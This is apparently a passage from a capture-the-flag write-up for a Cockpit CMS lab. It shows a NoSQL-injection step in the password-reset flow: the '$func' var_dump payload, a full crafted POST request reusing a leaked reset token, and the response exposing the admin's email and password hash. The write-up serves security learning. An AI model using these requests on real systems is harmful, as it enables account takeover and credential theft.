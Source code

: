 <p class="message">
❗ The first token string is always defined as the admin’s token even if the value has been changed

</p>

Copy one of the token strings and modify the request once again to dump the user account data within:

- `/auth/resetpassword/` → `/auth/newpassword/`
- `”token”:{”$func”:”var_dump”}` → `"token":"<token_string>"`

```
POST /auth/newpassword HTTP/1.1
Host: cmspit.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: application/json; charset=UTF-8
Content-Length: 60
Origin: http://cmspit.thm
Connection: close
Referer: http://cmspit.thm/auth/forgotpassword
Cookie: 8071dec2be26139e39a170762581c00f=pcmp2gb5ickiqe9v57dnh33sts

{"token":"rp-d72d501f6207ac757ac3cb114d1a0a4760a88abe28f23"}
```

In the response, scroll down to the `<script>` tag and get the user account data including **username**, **password hash**, **email**,…:

```
this.user  = {"user":"admin","name":"Admin","email":"admin@yourdomain.de","active":true,"group":"admin","password":"$2y$10$dChrF2KNbWuib\/5lW1ePiegKYSxHeqWwrVC.FN5kyqhIsIdbtnOjq","i18n":"en","_created":1621655201,"_modified":1621655201,"_id":"60a87ea165343539ee000300","_reset_token":"rp-d72d501f6207ac757ac3cb114d1a0a4760a88abe28f23","md5email":"a11eea8bf873a483db461bb169beccec"};
```

![Untitled](/assets/CMSPit%20images/Untitled%209.png)
